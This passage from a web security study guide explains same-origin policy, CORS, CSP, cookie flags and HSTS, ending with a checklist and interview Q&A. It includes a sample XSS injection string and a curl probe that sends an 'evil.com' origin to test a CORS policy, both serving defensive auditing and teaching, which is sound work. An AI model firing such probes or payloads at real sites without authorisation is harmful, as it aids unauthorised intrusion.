  Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'
  
  'unsafe-inline': allows any <script>...</script> tag and javascript: URIs.
  XSS: injected <script>alert(1)</script> → executed (unsafe-inline allows it).
  CSP: present but provides no XSS protection.
  
  Root cause: developer added 'unsafe-inline' because inline scripts in React/Vue
  were being blocked. The correct fix: use nonce-based CSP (nonce on each script tag),
  not 'unsafe-inline'.
  
  Fix:
  # Generate nonce per request
  nonce = secrets.token_urlsafe(16)
  csp = f"script-src 'self' 'nonce-{nonce}'"
  # In HTML template:
  # <script nonce="{{ nonce }}" src="/app.js"></script>

SECURITY HEADER AUDIT COMMANDS:

  # Check all security headers of a site (free, online)
  # https://securityheaders.com/?q=https://example.com
  
  # CLI: check headers with curl
  curl -I https://example.com 2>/dev/null | grep -i \
    -e "strict-transport" \
    -e "content-security" \
    -e "x-content-type" \
    -e "x-frame-options" \
    -e "access-control" \
    -e "referrer-policy" \
    -e "permissions-policy"
  
  # Test CORS configuration
  curl -H "Origin: https://evil.com" \
       -H "Access-Control-Request-Method: GET" \
       -X OPTIONS \
       https://api.example.com/data -I
  # If response includes 'Access-Control-Allow-Origin: https://evil.com': BAD
  # If response does not include that header: GOOD
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10 Vulnerabilities Deep Dive` (SEC-001) - XSS, CSRF are in the Top 10
- `Authentication and Session Management` (SEC-013) - session cookies are the primary CSRF attack surface

**Builds on this:**
- `Adversarial Thinking` (SEC-140) - attacker perspective on browser security model bypasses
- `Trust Boundary Analysis` (SEC-141) - browser origin boundaries are trust boundaries

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ FIVE LAYERS   │ SOP: browser enforces, blocks JS reads   │
│               │ CORS: server configures origin allowlist │
│               │ CSP: block unauthorized script sources   │
│               │ SameSite: CSRF protection on cookies     │
│               │ HSTS: enforce HTTPS always               │
├───────────────┼──────────────────────────────────────────┤
│ COOKIE        │ HttpOnly + Secure + SameSite=Strict      │
│ MINIMUM       │ All three on session/auth cookies        │
├───────────────┼──────────────────────────────────────────┤
│ CORS          │ Never: wildcard + credentials            │
│ RULES         │ Always: validate Origin against allowlist│
│               │ Set Vary: Origin header                  │
├───────────────┼──────────────────────────────────────────┤
│ CSP           │ Nonce-based (not 'unsafe-inline')        │
│               │ frame-ancestors 'none' (clickjacking)    │
│               │ Validate: SecurityHeaders.com            │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Security at the enforcement boundary, not the request boundary."
The browser security model's insight: the enforcement of security policies happens at the
boundary (the browser), not where the request originates (the website making the request).
This is the same principle as Zero Trust: do not trust the caller simply because of where
the call originates; enforce at the boundary of the resource being accessed.
Applied to web security: CORS enforcement happens at the BROWSER when the response arrives,
not at the requesting website. The requesting website cannot override the enforcement.
Applied to API security: JWT validation happens at the MICROSERVICE receiving the request,
not at the API gateway. The API gateway cannot override the service-level enforcement.
Applied to network security: firewall rules enforce at the network boundary.
A compromised host cannot override the firewall (unless the firewall itself is compromised).
Applied to database security: row-level security (RLS) enforces at the DATABASE,
not in the application. A compromised application cannot override RLS.
The pattern: push security enforcement as close to the resource as possible.
The closer the enforcement is to the resource, the fewer trust assumptions are required.
The browser: enforces security policies on behalf of the target server.
The target server: cannot protect itself against a malicious website's JavaScript.
The browser: can. The browser is the neutral, trusted enforcement point.
When designing security: ask "where is the enforcement boundary?" and "can an attacker
reach the resource without passing through that boundary?" If yes: the boundary is wrong.

---

### 💡 The Surprising Truth

The Same-Origin Policy is enforced by the BROWSER, not the SERVER. This means: if you're
building an API, you cannot enforce SOP yourself. You can CONFIGURE how the browser applies
it (via CORS headers), but you cannot prevent a non-browser client (curl, Postman, Python
requests, a mobile app) from accessing your API cross-origin.

This has a counterintuitive implication: CORS is not an authentication mechanism.

An API with `Access-Control-Allow-Origin: *`: accessible from any browser-based web application.
The same API with `Access-Control-Allow-Origin: https://myapp.com`: accessible from myapp.com
only, in browsers that enforce CORS. But STILL accessible from any non-browser client (curl,
a Python script, a mobile app, a compromised internal service).

The confusion: developers often think "we restricted CORS, so the API is protected." 
It's protected from unauthorized browser-based web applications reading its data.
It is NOT protected from server-to-server calls, mobile apps, or any tool that doesn't
implement browser-style CORS enforcement.

Real API security: authentication + authorization + rate limiting, regardless of CORS.
CORS: protects against web-based cross-origin JavaScript reads specifically.
It is a complement to authentication, not a substitute.

The correct mental model: CORS limits which web PAGES (running in browsers) can read the API.
Authentication limits which USERS (regardless of client type) can access the API.
You need both: CORS to protect browser-to-browser cross-origin reads, and authentication
to protect all clients (browser and non-browser) from unauthorized access.

An API without authentication but with CORS restrictions: protects against web-based theft
but not against direct API access. An API with authentication but without CORS: protects against
unauthorized access but allows any website to read responses (with valid credentials).

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** what SOP prevents (cross-origin JavaScript reads) and what it does NOT prevent
   (cross-origin sends: form submissions, image loads, script includes - the CSRF attack vector).
2. **CONFIGURE** secure CORS: specific origin allowlist (not wildcard with credentials), Vary:
   Origin header, handle OPTIONS preflight, reject unknown origins.
3. **CHOOSE** the right CSP level: for SPAs, nonce-based (not 'unsafe-inline'). Explain why
   'unsafe-inline' defeats XSS protection.
4. **SET** all three cookie security attributes: HttpOnly (no JS access), Secure (HTTPS only),
   SameSite=Strict (no cross-site sends - CSRF blocked).
5. **DESCRIBE** HSTS: tells the browser to always use HTTPS for 2 years, including subdomains.
   After first response: browser never makes HTTP requests to this domain. Prevents SSL stripping.

---

### 🎯 Interview Deep-Dive

**Q: A developer says "we have CORS configured, so our API is protected from cross-origin attacks."
What do you tell them?**

*Why they ask:* Tests whether the candidate understands what CORS actually protects (and doesn't).
A very common misconception. Relevant for any backend engineer, frontend security, API security roles.

*Strong answer covers:*
- What CORS actually does: "CORS tells browsers which origins are allowed to READ the API's
  responses. Without proper CORS, a malicious website's JavaScript can make requests to your API
  (the request IS sent), but the browser blocks the JavaScript from reading the response. CORS:
  enforced by browsers. It prevents cross-origin JavaScript reads."
- What CORS does NOT do: "CORS does not protect against: (1) server-to-server requests (curl,
  Python, mobile apps don't enforce CORS). (2) Unauthenticated access - CORS only controls
  which origins can read responses, not who is authenticated. (3) CSRF via form submissions - forms
  bypass CORS (the request is sent without a preflight). SameSite cookies and CSRF tokens are
  needed for CSRF protection, not CORS."
- The authentication gap: "A common mistake: using CORS as the only access control layer.
  'Our API only has CORS for our app's origin, so other apps can't access it.' But: a server-side
  script (curl, Python requests) doesn't go through the browser and doesn't enforce CORS.
  Your API: still accessible to anyone who can send HTTP requests. Authentication (API keys,
  OAuth tokens, mTLS) is the actual access control mechanism. CORS is a complement."
- What they should actually have: "For a secure API: authentication (JWT/API key validation on
  every request), proper CORS configuration (specific origin allowlist, not wildcard with
  credentials), SameSite cookies (for browser-based CSRF protection), and HSTS (to prevent
  SSL stripping of API traffic). Each: addresses a different attack vector. None: sufficient alone."